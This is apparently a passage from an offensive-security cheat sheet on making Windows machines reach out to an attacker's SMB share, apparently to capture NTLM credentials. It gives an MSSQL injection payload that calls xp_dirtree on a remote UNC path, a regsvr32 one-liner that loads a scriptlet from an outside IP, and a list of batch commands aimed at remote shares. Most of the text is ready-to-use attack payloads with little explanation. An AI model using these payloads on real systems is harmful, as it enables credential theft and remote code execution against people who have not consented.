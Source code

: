 ## MSSQL

Since stacked queries are supported we can call stored procedures.

```
';declare @q varchar(99);set @q='\\192.168.254.52\test'; exec master.dbo.xp_dirtree @q
```

## Regsvr32

Accidently found this one while experimenting with .sct files.

```
regsvr32 /s /u /i://35.164.153.224/@OsandaMalith scrobj.dll
```

## Batch

There are many possible ways you can explore

```
echo 1 > //192.168.0.1/abc
pushd \\192.168.0.1\abc
cmd /k \\192.168.0.1\abc
cmd /c \\192.168.0.1\abc
start \\192.168.0.1\abc
mkdir \\192.168.0.1\abc
type\\192.168.0.1\abc
dir\\192.168.0.1\abc
find, findstr, [x]copy, move, replace, del, rename and many more!
```

## Auto-Complete

You just need to type ‘\host\’ the auto-complete will do the trick under the explorer and the run dialog box.

![](<../../.gitbook/assets/image (660).png>)

![](<../../.gitbook/assets/image (637).png>)
